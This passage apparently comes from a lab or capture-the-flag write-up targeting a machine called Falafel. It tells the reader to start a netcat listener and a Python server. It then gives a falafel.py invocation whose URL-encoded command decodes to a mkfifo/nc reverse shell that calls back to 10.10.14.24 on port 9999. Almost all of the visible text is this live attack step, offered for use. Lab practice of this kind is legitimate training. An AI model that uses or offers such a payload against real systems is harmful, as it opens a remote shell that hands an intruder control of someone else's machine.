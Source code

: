 Start your netcat before and python server for your payload

```python3 falafel.py --command "rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.24%209999%20%3E%2Ftmp%2Ff"```
